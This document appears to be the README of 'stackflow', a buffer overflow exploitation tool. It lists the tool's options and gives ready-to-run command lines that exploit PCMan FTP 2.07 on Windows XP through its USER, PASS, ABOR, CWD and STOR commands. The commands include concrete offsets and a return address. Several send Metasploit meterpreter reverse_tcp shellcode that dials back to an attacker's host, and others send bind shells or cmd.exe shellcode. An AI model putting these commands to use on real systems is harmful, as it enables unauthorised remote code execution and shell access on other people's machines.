 stackflow
=========

Universal stack-based buffer overfow exploitation tool


Usage
=========

usage: ./stackflow.py OPTIONS

	optional arguments:
	  -h, --help            show this help message and exit
	  -r RHOST, --rhost RHOST
	                        rhost
	  -p RPORT, --rport RPORT
	                        rport
	  -c CMDS, --cmds CMDS  commands to send to server before overflow
	  -v VULNCMD, --vulncmd VULNCMD
	                        vulnerable command
	  -o OFFSET, --offset OFFSET
	                        offset to EIP
	  -a RETURNADD, --returnadd RETURNADD
	                        return address
	  -n NOPS, --nops NOPS  number of NOPS \x90 to prepend
	  -m PAYLOAD, --payload PAYLOAD
	                        MSF payload
	  -i LHOST, --lhost LHOST
	                        lhost
	  -l LPORT, --lport LPORT
	                        lport
	  -f FUZZ, --fuzz FUZZ  Fuzz command with cyclic pattern
	  -t, --calc            Send calc.exe shellcode
	  -t1, --cmdprompt      Send cmd.exe shellcode
	  -d, --display         Display the exploit buffer
	  -w TIMEOUT, --timeout TIMEOUT
	                        Timeout for socket (Default: 5)
	  -e CFEXPORT, --cfexport CFEXPORT
	                        Export exploit config and handler rc file
	  -g CFIMPORT, --cfimport CFIMPORT
	                        Import exploit config from file

All options can be input via the command line.

Some examples for PCMan FTP 2.07 running on WindowsXP SP3(ENG):

Vulnerable app: http://www.exploit-db.com/wp-content/themes/exploit/applications/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z


exploit without any commands and send meterpreter/reverse_tcp shellcode dialing back to 192.168.0.2 on port 4444:

	./stackflow.py -i 192.168.0.2 -l 4444 -r 192.168.0.9 -p 21 -o 2012 -m windows/meterpreter/reverse_tcp -a 7E429353


exploit the USER command and send meterpreter/reverse_tcp shellcode dialing back to 192.168.0.2 on port 4444:

	./stackflow.py -i 192.168.0.2 -l 4444 -r 192.168.0.9 -p 21 -o 2007 -m windows/meterpreter/reverse_tcp -v 'USER' -a 7E429353


exploit the PASS command and send calc.exe shellcode:

	./stackflow.py -r 192.168.0.9 -p 21 -o 6103 -v 'PASS' -c 'USER anonymous' -a 7E429353 -t


exploit the ABOR command and send meterpreter/bind_tcp shellcode listening on 4444:

	./stackflow.py -r 192.168.0.9 -p 21 -o 2007 -v 'ABOR' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -l 4444 -m windows/meterpreter/bind_tcp


exploit the CWD command and send cmd.exe shellcode and display the exploit buffer:

	./stackflow.py -r 192.168.0.9 -p 21 -o 2008 -v 'CWD' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -t1 -d


fuzz the STOR command with a cyclic buffer of size 3000:

	./stackflow.py -r 192.168.0.9 -p 21 -v 'STOR' -c 'USER anonymous&PASS a@a.com' -f 3000


export the exploit config and handler rc file:

	./stackflow.py -r 192.168.0.9 -p 21 -o 2008 -v 'CWD' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -t1 -e pcmancalcCWD


run an exploit from a config file:

	./stackflow -g pcmancalcCWD.py


start metasploit handler:

	msfconsole -r pcmancalcCWD.rc

